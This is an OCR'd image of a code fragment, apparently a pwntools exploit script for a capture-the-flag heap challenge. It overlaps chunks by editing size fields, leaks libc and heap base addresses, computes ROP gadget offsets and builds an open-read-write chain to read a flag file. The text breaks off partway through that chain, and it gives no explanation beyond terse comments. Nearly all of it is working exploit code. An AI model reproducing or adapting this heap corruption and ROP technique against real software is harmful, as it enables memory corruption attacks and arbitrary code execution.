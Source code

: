 ```


free(0)   
free(3)
free(5)
gdb.attach(io)
free(2) #chunk3 chunk2 he bing
payload = b'a'*0x428 + p64(0xc91)
add(0x440,payload) #0
#gdb.attach(io)
add(0x418) #2 chunk3 chunk2 leave part
add(0x418) #3  yuanxian chunk0
add(0x428) #5 yuanxian chunk5

free(3)
free(2)
#gdb.attach(io)
add(0x418,'a'*9) #2
add(0x418) #3
free(3)
free(5)
add(0x9f8) #3
add(0x428,'a') #5
payload = b'a'*0x200 + p64(0xc90) + b'\x00'
edit(6,payload)
#gdb.attach(io)
add(0x418)
add(0x208) # fangzhi top_chunk

free(3)
payload = p64(0) *3 + p64(0x421)
add(0x430,payload)
add(0x1600)
show(4)
libc_base = u64(io.recv(6).ljust(8,b'\x00')) -0x6a0 -libc.sym["__malloc_hook"]
suc("libc_base",libc_base)

show(5)
heap_base = u64(io.recv(6).ljust(8,b'\x00')) - 0x2b0
suc("heap_base",heap_base)
#gdb.attach(io)
tls_truct = libc_base + 0x1eb578
suc("tls_truct",tls_truct)
open = libc_base + libc.sym["open"]
read = libc_base + libc.sym["read"]
write = libc_base + libc.sym["write"]
setcontext  = libc_base + libc.sym["setcontext"]
pop_rdi = libc_base + 0x000000000002858f#: pop rdi; ret; 
pop_rsi = libc_base + 0x000000000002ac3f#: pop rsi; ret;
pop_rdx_r12 = libc_base + 0x0000000000114161#: pop rdx; pop r12; ret;
IO_file_jumps = libc_base + 0x1e54c0
IO_hleper_jumps = libc_base + 0x1e48c0
suc("IO_hleper_jumps",IO_hleper_jumps)
ret = libc_base + 0x0000000000026699 #: ret; 

payload = b'b'*0x208 + p64(0x431) + b'b'*0x428 + p64(0x211) + b'a'*0x208 + p64(0xa01)
add(0x1240,payload)

free(0) # orw_addr
flag_addr = heap_base + 0x8e0 + 0x100
orw = p64(pop_rdi) + p64(flag_addr) + p64(pop_rsi) + p64(0) + p64(open)
orw += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag_addr + 0x100) + p64(pop_rdx_r12) + p64(0x40)*2 + p64(read)
```